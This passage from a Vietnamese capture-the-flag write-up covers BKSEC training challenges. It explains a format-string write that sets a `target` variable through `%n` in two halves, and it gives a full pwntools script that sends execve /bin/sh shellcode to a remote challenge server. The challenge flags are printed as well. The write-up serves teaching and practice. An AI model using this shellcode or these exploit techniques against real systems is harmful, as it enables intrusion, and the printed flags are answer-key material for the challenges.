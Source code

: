 ```python
payload += p32(target)
payload += p32(target + 2)

p.sendlineafter(b'say?\n', payload)

p.interactive()
```

Phân tích một chút về lời giải trên. Do PIE tắt nên địa chỉ biến `target` không thay đổi. Chúng ta cần quan sát và đếm trên stack để biết được chính xác vị trí của `target`. 

Để gán cho `target = 0x6F726568`, ta phải chia ra làm 2 phần, vì khi truyền 0x6F726568 kí tự cho `target` thì sẽ quá lâu. Vì vậy, ta sẽ gán 0x6568 cho `target` và 0x6F72 cho `target+2`. Lưu ý rằng, `$n` đếm số byte ở trước đó được ghi, vậy nên khi gán giá trị cho `target+2`, chúng ta chỉ cần gán 0x6F72 - 0x6568 (bytes) mà thôi. 

**Đáp án: BKSEC{R41s1ng_th3_H3rO}**

**Tham khảo:**
- [Bài 16: Format String - Ghi dữ liệu bằng %n](https://www.youtube.com/watch?v=uet1ixUN8Gg)

### Bài shell_1

Load file vào IDA, yêu cầu bài này chỉ là viết shellcode đơn giản 

![alt text](/images/bktrain2024/image-6.png)

**Lời giải**
```python
#!/usr/bin/env python3
from pwn import *

p = process("./shell_1")
p = remote("45.77.247.61", 6071)

payload = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
p.sendlineafter(b'(max 256 bytes):\n', payload)

p.interactive()
```
**Đáp án: BKSEC{ju$7_A_5imPLE_ShelLCODE}**
